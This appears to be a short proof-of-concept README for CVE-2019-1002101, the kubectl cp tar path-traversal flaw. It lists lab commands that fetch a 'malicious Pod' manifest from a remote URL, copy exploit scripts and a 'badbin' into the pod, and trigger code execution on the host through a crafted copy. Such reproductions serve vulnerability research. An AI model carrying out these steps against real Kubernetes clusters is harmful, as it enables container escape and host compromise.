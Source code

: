 # Proof of Concept

Prepare the environemnt using the following command in metarget's folder : ./metarget cnv install cve-2016-5195

Prepare the malicious Pod using the following command : 
kubectl apply -f https://raw.githubusercontent.com/haseeb62/CVEs/main/CVE-2019-1002101/POC/ubuntu.yaml

Copy the malicious scripts in the pod and exec into it
sudo kubectl cp createPwnTar.sh ubuntu:/createPwnTar.sh
sudo kubectl cp setupTar.sh ubuntu:/setupTar.sh
sudo kubectl cp badbin ubuntu:/badbin

kubectl exec -it ubuntu -- /bin/bash

Execute the script in the pod to prepare malicious files 
./setupTar.sh
./createPwnTar.sh

In the host, execute a copy command to copy a file from the pod to the host
sudo kubectl cp ubuntu:/tmp/twist twist

Open a new bash session and the command in line 17 of createPwnTar.sh will be executed successfully 
